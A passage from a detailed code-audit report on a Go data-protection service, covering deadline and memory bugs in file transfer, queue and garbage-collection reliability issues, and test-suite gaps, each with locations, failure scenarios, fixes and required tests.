**Location:** `internal/api/server.go:311-317` (`ReadTimeout`/`WriteTimeout` 30s; routes mounted on this one server at `:182`, `:184`); `internal/config/config.go:277-285` (`FilesMaxMB` up to 4096 local / 256 s3), `:286-291` (`FilesMaxConcurrentUploads` up to 1024); `internal/service/files.go:74-89` (`acquireUpload`), `:184` (blocks inside the handler); `internal/api/files.go:53-55`, `:117-125` (download writes `Content-Length` then streams)

**Problem.** Every file route is served by the single `http.Server` built at server.go:311 with `ReadTimeout: 30 * time.Second` and `WriteTimeout: 30 * time.Second`. Go sets the read deadline when it begins reading a request and the write deadline when the request headers finish, so both cover the whole request-body read and the whole response-body write respectively. `rg` over non-test code finds no `ResponseController`, `SetReadDeadline`, `SetWriteDeadline` or `TimeoutHandler` anywhere in `internal/api`, so there is no per-route override. The upload path additionally blocks on `acquireUpload` (files.go:184) BEFORE reading any file content — and, as api/files.go:53-55 documents, that is deliberate: the file CONTENT is first read under the slot. That queueing time is subtracted from the same 30s read deadline. Nothing cross-checks the two size knobs against the transport deadlines: 256 MiB in 30s needs ~68 Mbps sustained, and even the 25 MiB default needs ~6.7 Mbps.

**Why it matters.** The configuration surface promises 256 MiB (s3) / 4 GiB (local) files that this server cannot move, and the failure mode worsens exactly under load, when the semaphore queue is longest.

**Failure scenario.** Upload, with `SUNDER_FILES_MAX_MB=256` (the s3 maximum):
1. A client PUTs a 200 MiB file over a 100 Mbps link — ~17s of pure transfer. Go sets the read deadline at request start.
2. Four other uploads already hold the four default semaphore slots (files.go:78-81, `defaultUploadConcurrency = 4`).
3. This request blocks in `acquireUpload` (files.go:184) for, say, 20s. **The read deadline has been running that whole time; 10s of budget remains.**
4. The slot is granted; the encrypt loop's `io.ReadFull(r, buf)` (files.go:214) starts reading 200 MiB with 10s left, which no link satisfies.
5. `ReadFull` returns a deadline error, the upload aborts, and the reap defer runs — an opaque 500 from `writeErr`'s default branch, with no signal that a timeout or a queue wait was the cause.

Download: `handleFileDownload` writes `200` plus `Content-Length` (api/files.go:117-119) and then streams. A 200 MiB file to a client slower than ~55 Mbps hits the write deadline mid-`decryptChunks`; the handler logs and returns (api/files.go:120-125), and the client receives a `200` with a truncated body it has no way to detect except by comparing lengths.

**Impact.** Uploads and downloads anywhere near the configured maximum fail non-deterministically under concurrency, with an opaque 500 for uploads and a silently truncated body for downloads. The two knobs are validated in isolation at config.go:277-291 with no cross-check against `ReadTimeout`/`WriteTimeout`.

**Root cause.** Fixed whole-request deadlines sized for small JSON API calls are applied unchanged to bulk-transfer routes, and the concurrency limiter queues *inside* the handler — after the deadline clock has started — rather than admitting requests before it.

**Fix.** Give the bulk routes their own deadline policy. In `handleFileUpload` and `handleFileDownload`:
```go
rc := http.NewResponseController(w)
budget := time.Duration(s.Cfg.FilesMaxMB)*time.Second + 30*time.Second // ~8 Mbps floor
_ = rc.SetReadDeadline(time.Now().Add(budget))
_ = rc.SetWriteDeadline(time.Now().Add(budget))
```
Reset the read deadline immediately after `acquireUpload` returns (files.go:184) so queue time is not charged to transfer time, and re-extend the write deadline periodically from inside the download stream so a slow-but-progressing client is not cut off. Add a startup validation or warning when `FilesMaxMB` cannot plausibly transfer within `ReadTimeout`. For downloads, on a mid-stream error, close the connection abruptly (`panic(http.ErrAbortHandler)`) rather than returning cleanly, so the client sees a broken transfer rather than a short 200.

**Test required.** Table test with `ReadTimeout`/`WriteTimeout` set to 1s on the test server: upload a file through a reader that trickles bytes over 2s and assert it succeeds (it fails with a deadline error today); download a file through a throttled `ResponseWriter` and assert the received body length equals `Content-Length` (it is short today). Plus a unit test asserting that occupying all upload slots for T seconds does not shorten a subsequent upload's read budget.

### FILES-STORAGE-2 — The S3 driver re-buffers the already-buffered ciphertext, so real peak upload memory is ~4x MaxBytes, not the documented 1x
**Severity:** MEDIUM | **Confidence:** CONFIRMED | **Verdict:** CONFIRMED | **Category:** PERFORMANCE
**Location:** `internal/storage/s3.go:397-398` (`bytes.NewBuffer(make([]byte,0,size))` + `io.Copy(buf, io.LimitReader(r, size+1))`), `:405-408` (hash, then a third view via `bytes.NewReader`); fed by `internal/service/files.go:213` (`sealedBuf`) and `:237` (`Store.Put(&sealedBuf, int64(sealedBuf.Len()))`); bound documented at `internal/service/files.go:39-43` and `:57-64`

**Problem.** `Files.UploadWithExpiry` buffers the whole sealed body in `sealedBuf bytes.Buffer` (files.go:213) and hands it to `Store.Put` at files.go:237. The S3 driver then buffers it again: `buf := bytes.NewBuffer(make([]byte, 0, size))` followed by `io.Copy(buf, io.LimitReader(r, size+1))` (s3.go:397-398). `io.Copy` finds no `WriterTo` on the `LimitReader`, so it takes `bytes.Buffer.ReadFrom`, which calls `grow(MinRead=512)` after the first full-size read; with `len == cap == size`, `tryGrowByReslice` fails and `growSlice` reallocates to ~2x. Both buffers are live simultaneously, plus the transient old array during the realloc. The `LimitReader` wrapper — added to catch an over-long reader — is also what defeats `bytes.Buffer.WriteTo`, which would have avoided the copy entirely.

**Why it matters.** The comments at files.go:39-43 and :57-64 state the invariant that the H8 semaphore exists to establish: "worst-case upload memory is `MaxConcurrentUploads * MaxBytes`". That is the figure an operator sizes containers from.

**Failure scenario.** Measured, not inferred. A 64 MiB sealed body reproduced with the exact code shapes (4 MiB chunk writes into a `bytes.Buffer`, then `io.Copy(bytes.NewBuffer(make([]byte,0,size)), io.LimitReader(&sealed, size+1))`):
1. `sealedBuf` — `len 67108864 cap 67108864`.
2. `io.Copy` dispatches to `buf.ReadFrom`; after reading `size` bytes it calls `grow(512)`, which cannot resize in place. **This is the reallocation point.**
3. s3 `buf` — `len 67108864 cap 134217728`.
4. `runtime.HeapAlloc` at that point: **256 MiB**; `HeapSys` 323 MiB — 4x the payload live at once for a single upload.

**Impact.** The advertised bound is wrong by ~4x on the s3 driver. With the defaults (4 concurrent, 25 MiB) an operator budgets 100 MiB and the process actually needs ~400 MiB. Config permits `SUNDER_FILES_MAX_CONCURRENT_UPLOADS` up to 1024 and `SUNDER_FILES_MAX_MB` up to 256 on s3 (config.go:277-291), i.e. a documented 256 GiB ceiling that is really ~1 TiB. An operator sizing from the documented formula gets OOM-killed by legitimate concurrent uploads — and an OOM mid-upload is exactly the crash that strands ciphertext per FILES-STORAGE-3.

**Root cause.** Two independent layers each decided to buffer the body: the vault because chunk sealing is done in memory, the driver because SigV4 needs `sha256(body)` before the body is sent. Neither knows the other already did it, and the `LimitReader` guard disables the zero-copy path that would have made the second buffer free.

**Fix.** Stop the second copy. In `s3Driver.Put`, take a fast path for an already-materialised body:
```go
var body []byte
switch src := r.(type) {
case *bytes.Buffer:
    if int64(src.Len()) == size { body = src.Bytes() }
case *bytes.Reader:
    if int64(src.Len()) == size { body = make([]byte, size); _, _ = io.ReadFull(src, body) }
}
if body == nil {
    body = make([]byte, size)
    if _, err := io.ReadFull(r, body); err != nil { … }
    var probe [1]byte                                  // over-long reader check, no realloc
    if n, _ := r.Read(probe[:]); n != 0 { return fmt.Errorf("…got more than %d bytes", size) }
}
```
Never use `bytes.Buffer.ReadFrom` here — over-allocation is inherent to it. Better still, change `Driver.Put` to take `[]byte` (or an `io.ReadSeeker`), since every caller already holds the whole object in memory. Correct the memory-bound comments at files.go:39-43 and :57-64 to state the true multiplier.

**Test required.** A benchmark/unit test that uploads one `MaxBytes`-sized file through the s3 driver against an `httptest` server and asserts the `runtime.ReadMemStats().TotalAlloc` delta is under `1.5 * size` (it is ~4x today), plus a driver-level test asserting `Put` with a `*bytes.Buffer` of exactly `size` performs no allocation larger than the SigV4 scratch.

#### LOW / INFORMATIONAL — reliability, error handling & performance

| ID | Severity | Problem | Location | Fix |
|---|---|---|---|---|
| QUEUE-WORKER-6 | LOW | `NO_MAILER` and `NO_WEBHOOK` are terminal with no retry, so mail and erasure notifications queued before the endpoint is registered are abandoned permanently. Both workers resolve the endpoint at delivery time (portal.go:371-378 reads `url`+`secret` from `webhooks` on every delivery) and record its absence — a mutable configuration fact — as an immutable property of the message. Neither status is ever revisited: both claim SELECTs filter `status='PENDING'`, the portal reaper touches `SENDING` only, there is no erasure reaper at all, and nothing in `cmd/sunder` requeues either status. Art. 19 propagation for a scope onboarded before its webhook is registered is written off as a completed outcome. Portal half is near-moot (the queued token dies in 10-15 min, so redelivery would mail a dead link; the only real cost is the burnt 3-per-15-min throttle slot); the erasure half persists visibly — `grep -rn erasure_events` confirms no prune or DELETE of that table anywhere, so the row survives indefinitely and is listable via `sunder dsr events` for a manual requeue | `internal/service/portal.go:288-290` (`errNoMailer` → `settleMail(NO_MAILER)`), `:232-233`, `:371-378`; `internal/service/gdpr.go:695-698` (`e.url == nil` → `terminal(NO_WEBHOOK)`), `:636-638` (LEFT JOIN claim); `cmd/sunder/main.go:393-396` (`dsr events`). *Correction: the filed location cited gdpr.go:707-710; the check is at :695-698* | Treat a missing endpoint as blocked, not failed: leave the row `PENDING` and do NOT count an attempt — `if e.url == nil { requeue(e); continue }` where requeue is `UPDATE erasure_events SET status='PENDING' WHERE id=$1 AND status='SENDING'`, same for `errNoMailer`. Emit the audit row / a `sunder_outbox_blocked_no_endpoint{scope}` gauge once rather than per sweep, and bound the wait by the message's own `expires_at`. If the terminal status is kept for reporting, add `sunder dsr requeue` or a statement returning blocked rows once the config exists: `UPDATE erasure_events e SET status='PENDING' FROM webhooks w WHERE w.scope=e.scope AND e.status='NO_WEBHOOK'` |
| FILES-STORAGE-3 | LOW | A storage PUT that lands but reports failure leaves ciphertext no code path can ever find or delete. The reap defer that guarantees no orphan is registered at files.go:249, strictly *after* the `return` at :238 — so a Put that reports failure never reaps, and `s3Driver.Put` can fail after the object is durable (body fully sent at s3.go:408-412, then a lost 200, a reset after body ACK, or a context deadline yields `storage: s3 put …` over a stored object). The SIGKILL/OOM variant leaves the same orphan even with the defer registered, since deferred funcs do not run. Nothing can recover it: `Driver` exposes only Put/Get/Delete — no `List` — and `RunFileGC` enumerates victims solely from `SELECT id, storage_key FROM files WHERE gc_at IS NOT NULL`. Residue is inert (the wrapped DEK died with the rolled-back transaction), so the cost is unreclaimable storage plus an un-auditable key, not data loss or exposure. *Correction to the filed framing: the local driver is immune to the ambiguous-PUT half — local.go:85-133 writes a temp file, fsyncs, renames, and returns no error after `committed = true` — so only the s3 driver can report failure over a stored object* | `internal/service/files.go:237-239` (early return precedes the defer), `:249-256` (reap defer), `:498` (`RunFileGC` victim query); `internal/storage/storage.go:25-29` (`Driver`, no `List`); `internal/storage/s3.go:408-413` | Make the DB the index before the object exists: write the `files` row with `gc_at = now()` and commit BEFORE calling Put, then Put, then `UPDATE files SET gc_at = NULL` on success. Every failure — ambiguous PUT, OOM, ambiguous commit — then leaves a gc-marked row `RunFileGC` reaps, and no state exists in which an object has no row naming it (this also closes FILES-STORAGE-1). If the reordering is too invasive: at minimum register the reap defer BEFORE calling Put, add `List(ctx, prefix)` to `storage.Driver`, and add a `sunder retention orphans` sweep that deletes objects with no matching `files.storage_key` |
| FILES-STORAGE-7 | LOW | **PLAUSIBLE.** `RunFileGC`'s unordered fixed-window victim query lets permanently-undeletable objects starve the GC queue. Each sweep selects up to 1000 gc-marked rows with no `ORDER BY`, no offset and no failure accounting, then `continue`s on any victim whose `store.Delete` returns a non-`IsNotExist` error, recording nothing. Successfully deleted rows leave the table, so only persistently failing rows recur; with ≥1000 simultaneously undeletable objects (a bucket policy making `DeleteObject` 403 — `newS3Error` does not map that to `os.ErrNotExist` — or a vault directory that lost write permission) every sweep refills the LIMIT with the same poison set and returns `reaped=0`, a success with zero work, while newly gc-marked rows — including file rows crypto-shredded by an Article 17 erasure via `ShredRecordKey` — are never reached. Marked PLAUSIBLE because the ≥1000-poison precondition is not demonstrated from code, and "the same rows every sweep" assumes plan stability rather than a guarantee; the latent defect (unordered work queue, poison retried forever, zero work reported as success) is real | `internal/service/files.go:498` (`SELECT id, storage_key FROM files WHERE gc_at IS NOT NULL LIMIT 1000`), `:516-518` (per-victim `continue`, no failure state); `cmd/sunder/main.go:362-367` (prints `reaped` with no notion of skips) | Order the victim query by `gc_at` — the partial index `files_gc_idx` already supports it — and add per-row failure tracking so poison rows fall to the back: a `gc_attempts INT NOT NULL DEFAULT 0` column bumped on each non-`IsNotExist` failure with `ORDER BY gc_attempts, gc_at LIMIT 1000`, or re-stamp `gc_at = now()` on failure so oldest-first naturally rotates. Return the skipped count from `RunFileGC` and have `retentionCmd` print/emit it, so a stalled sweep is visible rather than reported as `reaped=0` |
| AUDIT-CHAIN-7 | LOW | An async→sync rolling restart across replicas strands audit rows outside the chain. The switch is protected by exactly one `audit.Drain` at the start of the switching process (server.go:479), whose comment reasons correctly for a single instance; with N replicas against one Postgres the drain is point-in-time on shared state, and replicas still on async keep inserting `hash IS NULL` rows with no lock after it completes. The sync branch of `startAuditSealing` starts NO sealer loop (the ticker at server.go:506-520 is in the async branch only), and `Drain` has just two non-test callers — startup and `sealer -once` — with no drain on shutdown. So rows younger than `SUNDER_AUDIT_SEAL_DELAY` when the last async replica terminates are stranded with no sealer left in the fleet. Steady state: the gauge sits at a small non-zero value, `sunder verify-audit` fails hard with "N unsealed rows under sync sealing", and `/v1/admin/audit/verify` returns `ok:false` — indefinitely, until an operator manually runs `sunder sealer -once` under a *different* mode than the one now configured. Verdict availability, not evidence loss: stranded rows are still protected by `audit_no_update` | `internal/api/server.go:474-495` (sync branch: one Drain, then serve), `:506-520` (async-only ticker); `internal/audit/audit.go:166-172` (async insert, no lock), `:352` (`Drain`); `cmd/sunder/main.go:509-511`, `:1193`; `internal/api/audit.go:50-58`; `docs/THREAT-MODEL.md:139-143` (states only the per-process guarantee) | Keep a low-frequency sealer running even in sync mode — a `SealOnce` tick every few seconds costs nothing when the backlog is empty (it takes the lock, finds zero rows, commits) and makes the invariant self-healing regardless of restart order. Alternatively have the sync append path detect a non-empty unsealed backlog under the chain lock it already holds and drain it inline before chaining. Either way, document that a mode switch is a stop-the-fleet restart if no self-healing sealer is added |
| CONCURRENCY-CORE-5 | LOW | `Server.Run` leaks a permanently blocked goroutine when both listeners return: `errCh` is buffered to 1 but has two producers whenever a dedicated portal listener is configured. On the `ctx.Done()` branch `Run` calls `shutdown()` and returns without draining `errCh`; `shutdown()` Shutdowns both servers, both `ListenAndServe[TLS]` calls return `http.ErrServerClosed`, one send fills the single slot and the other parks forever with no reference left that could drain it. The `case err := <-errCh` branch drains one value first, so that path is fine. Nil impact in `sunder serve` (the process exits immediately), real in any process that calls `Run` more than once or outlives it — the test suite and any embedding harness accumulate one parked goroutine plus the retained `*http.Server` and handler graph per instance, and a genuine post-shutdown listener error is silently discarded | `internal/api/server.go:383` (`make(chan error, 1)`), `:384-390` (API listener sends), `:411-417` (portal listener sends to the SAME channel), `:446-452` (select returns without draining) | `errCh := make(chan error, 2)`, or better make both sends non-blocking (`select { case errCh <- err: default: }`) and hold both goroutines in a `sync.WaitGroup` that `shutdown()` waits on, so `Run` cannot return while any of its goroutines is still running. The same WaitGroup should cover the delivery worker (`:344`), the sealer (`:507`), the unsealed gauge (`:596`) and the bucket closer — none of which is waited on today (QUEUE-WORKER-3) |
| CONCURRENCY-CORE-7 | LOW | The playground spec cache holds its mutex across a 15-second outbound HTTP fetch and does not serve stale on failure. `spec()` takes `s.specs.mu` with a deferred unlock, then performs a GET to `BaseURL+"/openapi.yaml"` via a client with `Timeout: 15 * time.Second` plus an `io.ReadAll` of up to 4 MiB, all under the lock, publishing `body`/`fetched` only on success — so an unresponsive upstream never advances `fetched`, the next request repeats the whole fetch, and a perfectly good cached document from a minute ago is discarded rather than served. Concurrent visitors (distinct IPs, so the per-IP `ui` limiter admits them) queue on the mutex rather than the network, each holding a handler goroutine and a connection for the full wait. Demo binary only (`cmd/playground`), no auth or data-model reach. *Correction to the filed framing: the request uses `r.Context()` via `handleSpec`, so a visitor who gives up cancels their own fetch and releases the lock early, capping the queue below the 15s-per-visitor figure* | `internal/playground/reference.go:66-67` (`Lock`+`defer Unlock`), `:74` (`Client.Do`), `:81` (`ReadAll`), `:85` (publish); `internal/playground/server.go:95` (15s client), `:118` (route behind the `ui` limiter). *Filed location cited server.go:92 for the client; it is :95* | Copy `body`/`fetched` out under the lock, release it, fetch, then re-acquire to publish — and collapse concurrent fetches with a `singleflight` or an in-flight channel so only one upstream request is ever open. On error return the previous `s.specs.body` when non-nil (marking it stale in a header or a log) instead of failing, and record a `lastFailed` timestamp so a dead upstream is not re-probed on every request |

---

## 8. Test Coverage Gaps

The suite is large, uses real PostgreSQL per test, and contains genuinely strong pieces (the denied-role fault injection, the `pg_stat_activity` lock barrier in `TestS4_TokenizeRacingErasureCannotLandToken`, the erasure-completeness sweep). The gaps below are where a named guarantee has a test that cannot fail, or where a proven production defect has no test at all.

One HIGH testing finding, **TESTS-3** (no test and no reaper for `erasure_events` stranded in `SENDING`), is evidenced with the queue-worker findings it shares a root cause with (CONCURRENCY-CORE-1 / DB-TXN-2 / GDPR-ERASURE-3 / QUEUE-WORKER-1 / OPS-CLI-CONFIG-2 / DOCS-3) and is not repeated here.

### TESTS-1 - `TestPortalListenerTimeoutsAndConcurrentDrain` is vacuous: no erasure event is ever queued, so the concurrency assertion cannot fail, and no listener timeout is asserted at all
**Severity:** MEDIUM | **Confidence:** CONFIRMED | **Verdict:** CONFIRMED | **Category:** TESTING
**Location:** `internal/api/portal_hardening_test.go:283-323` - `TestPortalListenerTimeoutsAndConcurrentDrain`; env builder `internal/api/portal_e2e_test.go:34-76` - `newPortalEnv`

**Problem.** The test claims two properties ("the portal listener carries the full timeout set, and the two delivery queues drain concurrently so one hanging mailer cannot starve the other"). It proves neither.

(a) It never asserts anything about `http.Server` timeouts — it never constructs or inspects the portal `http.Server`, never reads `ReadHeaderTimeout`/`ReadTimeout`/`WriteTimeout`/`IdleTimeout`, and never calls `Run()`. The words "listener timeouts" in the name are unbacked.

(b) The concurrency assertion is `if elapsed := time.Since(start); elapsed > 900*time.Millisecond`. The two sweeps are `Portal.DeliverPendingMail` (mailer sleeps 400ms) and `GDPR.DeliverPending`. `newPortalEnv` (portal_e2e_test.go:33-72) only inserts a `_portal` webhook and creates a crm client; the test calls `e.register` and `POST /portal/api/start` and nothing else. Erasure events are written only by `erasePerson` (`gdpr.go:507 INSERT INTO erasure_events`), which is never called, so `GDPR.DeliverPending`'s claim SELECT (`gdpr.go:635-639`, `WHERE e.status='PENDING'`) returns zero rows and finishes in microseconds.

**Why it matters.** The only regression test behind the documented guarantee that a hanging mailer cannot starve the erasure-webhook queue — an Article 17 delivery path — cannot distinguish concurrent from sequential drain.

**Failure / attack scenario.**
1. Replace the two `go func(){...}()` calls with two sequential calls: `_, _ = e.srv.Portal.DeliverPendingMail(ctx); _, _ = e.srv.GDPR.DeliverPending(ctx)`.
2. Run the test. Elapsed is still ~400ms (one 400ms mailer sleep plus an empty erasure-queue sweep), well under the 900ms bound.
3. The test passes, having proved nothing about concurrent drain.
4. Equivalently: revert `internal/api/server.go:356-380` to drain the two queues sequentially on each tick and this test still passes.

**Impact.** A future refactor that serialises the two drains on the `DeliverInterval` tick ships green. The erasure webhook could then block behind a mailer that hangs for the full `WebhookTimeout` on every tick, silently delaying every erasure notification, and CI would not notice. Production code today (`server.go:356-380`) does drain in parallel, so this is a vacuous test, not a live defect.

**Root cause.** The test seeds only one of the two queues it claims to test in parallel, and the tolerance (900ms) was chosen larger than the whole sequential runtime rather than as a discriminating bound.

**Fix.** Seed BOTH queues with slow work and make the threshold discriminating: register a second contact, call `GDPR.Erase` on it so an `erasure_events` row exists, and point the `crm` webhook at a server that also sleeps 400ms. Assert `elapsed < 700*time.Millisecond` and that both sweeps reported one delivery each. Split the listener-timeout claim into its own test that builds the server via `Run()` (or exposes the constructed `*http.Server`) and asserts `ReadHeaderTimeout`/`ReadTimeout`/`WriteTimeout`/`IdleTimeout` are non-zero and equal to the main listener's values; rename this one `TestDeliveryQueuesDrainConcurrently`.

**Test required.** Mutating `internal/api/server.go:356-380` to call `s.GDPR.DeliverPending(ctx)` and `s.Portal.DeliverPendingMail(ctx)` sequentially inside the tick must make the test fail with elapsed ~800ms > 700ms; deleting the portal `http.Server`'s `ReadHeaderTimeout` must fail the new timeout test.

### TESTS-2 - The portal timing-oracle test only rejects PERFECT separation, so it cannot detect a large systematic timing leak
**Severity:** MEDIUM | **Confidence:** CONFIRMED | **Verdict:** CONFIRMED | **Category:** TESTING
**Location:** `internal/api/portal_hardening_test.go:160-190` - `TestPortalStartTimingDoesNotSeparate`; guarantee at `docs/THREAT-MODEL.md:56-72` ("tested, not asserted") and `privacy-portal.md:107`

**Problem.** The only assertion is `if hits[0] > misses[n-1] { t.Fatalf("perfect separation: ...") }`. That fails only when the FASTEST hit is slower than the SLOWEST miss over n=30 samples each — complete disjointness. Any overlap, even one outlier, passes. A handler whose known-address branch is systematically 15ms slower (median 55ms vs 40ms) with noisy overlapping tails passes unconditionally. The 40ms constant-time floor (`internal/service/portal.go:45 portalStartFloor`, applied in the deferred sleep at :75-82) is also never asserted: nothing checks that every response took at least 40ms, so removing the floor entirely would not fail this test as long as both branches sped up together. `portal.go:91` itself concedes "This is not cryptographic constant time - the hit path does one more INSERT", so the property that actually needs guarding is exactly the one the assertion cannot see.

**Why it matters.** `POST /portal/api/start` is the only anonymous surface that touches the person table; enumeration resistance there is the documented, CI-backed property.

**Failure / attack scenario.**
1. Add a deliberate 15ms sleep on the known-address branch of the start handler (or one extra indexed DB round trip that only runs on a hit).
2. Run the test: hits median ~55ms, misses median ~40ms, but scheduling noise makes `hits[0]` (~45ms) < `misses[29]` (~60ms).
3. `hits[0] > misses[n-1]` is false. The test passes.
4. An attacker probing one address 9 times and taking the median separates known from unknown with near-certainty.

**Impact.** A regression that reintroduces a per-branch DB round trip or an early return ships green while the docs keep claiming CI enforces the property.

**Root cause.** A min/max disjointness check was chosen because it never flakes, at the cost of essentially zero statistical power; no location statistic and no floor check are compared.

**Fix.** With n>=100 samples per branch: (1) require every sample `>= 40ms`; (2) require `abs(median(hits) - median(misses)) < 5*time.Millisecond`; (3) optionally a Mann-Whitney U / permutation test requiring p > 0.01. Keep the perfect-separation check as a cheap extra. Pin `GOMAXPROCS` and discard warm-up samples to control flake.

**Test required.** Injecting a 15ms sleep into the known-address branch must fail the median-delta assertion; removing the constant-time floor must fail the `>=40ms` assertion.

### TESTS-4 - `TestBulkAuditAndUnlockConcurrency` contains neither concurrency nor the unlock surface; `Unlock.Consume` single-use is never tested under concurrency anywhere
**Severity:** MEDIUM | **Confidence:** CONFIRMED | **Verdict:** CONFIRMED | **Category:** TESTING
**Location:** `internal/service/select_security_test.go:334-365` - `TestBulkAuditAndUnlockConcurrency`; code it claims to cover `internal/service/unlock.go:88-116` - `Consume`; the only unlock test is `internal/service/select_security_test.go:57-130` - `TestUnlockTokenLifecycle`, fully sequential

**Problem.** The doc comment says the test "re-confirms single-use under concurrency for the new unlock surface". The body builds a `ValueTokens` service and an `auth.Client` with `{tokens.create, tokens.read}`, calls `TokenizeBulk` once and `DetokenizeBulk` once sequentially, and asserts `count(*) FROM audit WHERE action='tokens.bulk_create' == 1` and the same for `tokens.bulk_read`. There is no goroutine, no sync primitive, no `*service.Unlock`, no `Issue`, no `Consume`, and no single-use assertion. `grep -rn '\.Consume(' *_test.go` returns only `select_security_test.go:86,89,98,106,110,123,200,541` — all sequential.

**Why it matters.** The single-use second factor gates `POST /v1/tokens/bulk` and `/v1/tokens/bulk/read` unconditionally (`api/tokens.go:63`) — the surface with the highest bulk-exfiltration potential. Correctness rests on `UPDATE unlock_tokens SET used_at = now() WHERE token_hash=$1 AND client_id=$2 AND purpose=$3 AND used_at IS NULL AND expires_at > now()` (`unlock.go:104-108`) being a genuine atomic CAS: under READ COMMITTED the second updater blocks on the row lock, re-evaluates the predicate against the committed tuple, and gets `RowsAffected()==0`.

**Failure / attack scenario.**
1. Refactor `Consume` to a check-then-act: `SELECT used_at FROM unlock_tokens WHERE token_hash=$1`, then if NULL `UPDATE ... SET used_at=now()`.
2. Run the whole suite. Everything passes: `TestUnlockTokenLifecycle` spends tokens one at a time, and `TestBulkAuditAndUnlockConcurrency` never touches `Unlock`.
3. In production, two concurrent `/v1/tokens/bulk/read` requests carrying the same unlock token both pass the SELECT before either UPDATE lands; both bulk detokenizations succeed on one declaration of intent.

**Impact.** A regression turning the CAS into a check-then-act is invisible to CI. The audit chain would then show one `admin.unlock.use` for two bulk reads, so even the accountability trail — the stated point of the mechanism (`unlock.go:1-15`) — understates what happened. Production is correct today.

**Root cause.** The test was named for the property intended and written to cover the bulk audit-append branch instead; nothing checks that a test's name matches its assertions.

**Fix.** Rename the existing test `TestBulkOperationsWriteOneChainedAuditRow`. Add a real concurrency test: spend one token from N goroutines released by a shared `close(start)` barrier, assert exactly one returns nil and N-1 return `ErrUnlockRequired`, and assert exactly one `admin.unlock.use` audit row. Add the HTTP twin: N concurrent `POST /v1/tokens/bulk/read` with the same unlock token, exactly one 200.

**Test required.** `TestUnlockIsSingleUseUnderConcurrency` (barrier-released, N=16) must fail when `Consume` is rewritten as SELECT-then-UPDATE and pass on the current CAS.

### TESTS-5 - `TestFileKeystoreConcurrentEnsure` never asserts the racers agree on the key bytes — it passes with the O_EXCL generator election removed entirely
**Severity:** MEDIUM | **Confidence:** CONFIRMED | **Verdict:** CONFIRMED | **Category:** TESTING
**Location:** `internal/crypto/keystore_test.go:122-144` - `TestFileKeystoreConcurrentEnsure`; code under test `internal/crypto/keystore.go:97-137` (`Ensure`), `:139-147` (`ensureLocked`), `:149-175` (`writeKey`); guarantee at `docs-site/docs/admin/keys-and-keystores.md:116-119`

**Problem.** 16 goroutines, each with its own `&FileKeystore{Dir: dir}` (deliberately, to simulate separate processes on a shared directory — so the per-instance `f.mu` at `keystore.go:102` serialises nothing), each calling `Ensure(ctx, "race/v1")`. The only assertions are that every `errs[i] == nil` and that a fresh keystore can `Key(ctx, "race/v1")` without error. Neither depends on the racers agreeing. `writeKey` (`keystore.go:149`) always generates 32 fresh random bytes and publishes them via an atomic rename. If two generators both run — exactly what the O_EXCL lock at `keystore.go:110` and the stale-lock reclaim at `:118-121` exist to prevent — both `Ensure` calls return nil and `Key` returns whichever rename landed last. Green. The Vault twin, `TestVaultKeystoreCASConflictReturnsWinner` (`keystore_test.go:85-110`), does compare bytes; the file driver's test does not.

**Why it matters.** The guarantee is that a bootstrap race "cannot overwrite each other's material" and the loser re-reads the winner's key. That is a statement about key IDENTITY, and identity is the one thing the test does not look at. `SUNDER_KEYSTORE=file` is the documented default.

**Failure / attack scenario.**
1. Delete the O_EXCL lock election from `FileKeystore.Ensure`: keep the initial `if b, err := os.ReadFile(p); err == nil && len(b) == 32 { return nil }` fast path and jump straight to `return f.writeKey(p)`.
2. Run the test. All 16 goroutines pass the read check (file absent), all 16 generate a key, all 16 rename. Every `Ensure` returns nil; `Key` succeeds. Test passes.
3. In production this is a keystore that can overwrite live key material. A PII KEK that sealed a blob a millisecond earlier is replaced by different 32 bytes, and every blob written under the loser's key becomes permanently undecryptable.
4. The same holds for the stale-lock reclaim path (`keystore.go:118-121`): two processes that both see a >30s-old lock both call `ensureLocked` and both may `writeKey`.

**Impact.** The strongest "never silently regenerated / cannot overwrite each other's material" claim in the key-management docs is untested for the default driver. Silent key overwrite is unrecoverable data loss for everything sealed under the overwritten key, and the failure is not loud — reads simply start failing to authenticate.

**Root cause.** The test proves the absence of an error under contention rather than the presence of the invariant the lock exists for. `Ensure` returns only an error and never the key, so the identity check requires a second call and was skipped.

**Fix.** Have each goroutine read the key it ended up with (`Key(ctx, "race/v1")` immediately after its own `Ensure` returns) into a slice, require all 16 to be byte-identical, and require exactly one key file in the directory with no leftover `.tmp*` or `.lock` files. Add a second test for the stale-reclaim path: pre-plant a >30s-old lock file AND a valid 32-byte key, run 8 concurrent `Ensure`s, assert the pre-planted bytes are unchanged (`ensureLocked`'s re-read must win).

**Test required.** With the identity assertion added, removing the O_EXCL election (or making `writeKey` unconditional) must fail with "racers disagreed on key material"; the current implementation must pass.

### TESTS-6 - No test covers a partially-failed cascade erasure: the parent commits, the child fails, and `EraseWithCascade` throws away the parent's erasureID so the operation cannot be resumed
**Severity:** MEDIUM | **Confidence:** CONFIRMED | **Verdict:** CONFIRMED | **Category:** TESTING
**Location:** `internal/service/gdpr.go:385-437` - `EraseWithCascade` (parent erased at `:419`, per-child `erasePerson` at `:429`, error return `return 0, 0, nil, fmt.Errorf("cascade erase of %s: %w", ...)` at `:430`); tests at `internal/service/links_test.go:114-137, :139-161, :163-188, :190-212`

**Problem.** `EraseWithCascade` is explicitly NOT one transaction: `erasePerson` opens and commits its own tx per person (`gdpr.go:449`). The parent commits first, then each cascaded child commits independently. If any child's `erasePerson` fails (denied table, FK violation, pool blip, context cancellation, or a child concurrently erased in a way that is not the `ErrValidation` sentinel), the function returns `0, 0, nil, err` — discarding the parent's already-committed erasureID and its scope count. The four cascade tests cover default-no-cascade (`:114`), opt-in success (`:139`), and three pre-flight guards — child listing failing BEFORE any erasure, permission failure, unknown cid (`:163-188`). None fails a child AFTER the parent has committed; nothing else in the tree exercises that path.

**Why it matters.** Article 17 completeness for linked sub-accounts, and the recovery story for a 5xx on the erase endpoint.

**Failure / attack scenario.**
1. Parent P is linked to child C with link_type `guardian`.
2. Officer calls `POST /v1/dsr/erase` with `cascade:["guardian"]`.
3. `erasePerson(P)` commits: P is tombstoned, P's tokens/shares/links/portal state deleted, `erasure_events` queued for P's scopes.
4. `erasePerson(C)` fails — e.g. C holds an `oti` row and the `oti` write errors, or the request context is cancelled by the client mid-cascade.
5. `EraseWithCascade` returns `(0, 0, nil, err)`. The handler responds 5xx. The caller sees a failed erasure.
